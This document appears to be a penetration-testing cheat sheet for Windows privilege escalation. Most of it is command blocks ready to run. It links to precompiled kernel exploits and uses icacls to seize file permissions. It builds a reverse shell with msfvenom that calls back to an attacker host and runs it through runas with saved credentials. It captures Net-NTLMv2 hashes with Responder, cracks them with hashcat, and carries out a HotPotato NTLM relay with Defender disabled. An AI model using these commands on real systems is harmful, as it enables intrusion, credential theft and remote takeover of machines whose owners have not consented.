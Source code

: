 ## Kernel exploits
- List of precompiled Kernel Exploits: https://github.com/SecWiki/windows-kernel-exploits

## Permissions modification
- If the file or folder is owned by me, I can get all permissions for it:
```cmd
icacls "C:\<file_path>" /grant <user>:(F)
```

## Switching users in console
- Prepare the reverse shell:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run:
```cmd
runas /user:<user> .\shell.exe
```
- Run with stored credentials _(or if password for user is not required)_:
```cmd
runas /savecred /user:<user> .\shell.exe
``` 

## Catching Net-NTLMv2 hashes
- Prepare the responder:
```bash
sudo responder -I tun0
```
- Connect to the share from target:
```cmd
//<my_ip>/share/anything
```
- Crack the hash:
```bash
echo '<hash>' > hash
hashcat -m 5600 -a 0 ./hash /usr/share/wordlists/rockyou.txt
```

## NBNS spoofing and NTLM relay _(HotPotato)_
- Prepare the exploit and the reverse shell:
```bash
cp ~/pentesting-tools/hotpotato/Potato.exe ./potato.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run it on Windows 7:
```cmd
.\potato.exe -ip <windows_ip> -disable_exhaust true -disable_defender true -cmd "<full_path>\shell.exe" 
```
- Run it on Windows Server 2008:
```cmd
.\potato.exe -ip <windows_ip> -disable_exhaust true -disable_defender true --spoof_host WPAD.EMC.LOCAL -cmd "<full_path>\shell.exe" 
```

